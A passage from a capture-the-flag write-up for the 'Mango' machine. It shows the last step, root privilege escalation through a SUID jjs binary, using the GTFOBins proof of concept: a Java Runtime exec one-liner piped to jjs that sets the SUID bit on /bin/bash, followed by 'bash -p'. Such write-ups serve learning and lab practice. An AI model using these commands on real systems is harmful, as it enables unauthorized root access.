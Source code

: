 <img src="/assets/img/mango-updated/image 15.png" alt="image 15.png" style="width:800px;">

[GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) has a *Proof of Concept (PoC)* for that binary.

<img src="/assets/img/mango-updated/image 16.png" alt="image 16.png" style="width:800px;">

Successfully escalated to root by abusing the SUID binary. GGs!!!

```bash
admin@mango:/home/admin$ install -m =xs $(which jjs) .
admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash').waitFor()" | /usr/bin/jjs

admin@mango:/home/admin$ bash -p
```

<img src="/assets/img/mango-updated/image 17.png" alt="image 17.png" style="width:800px;">
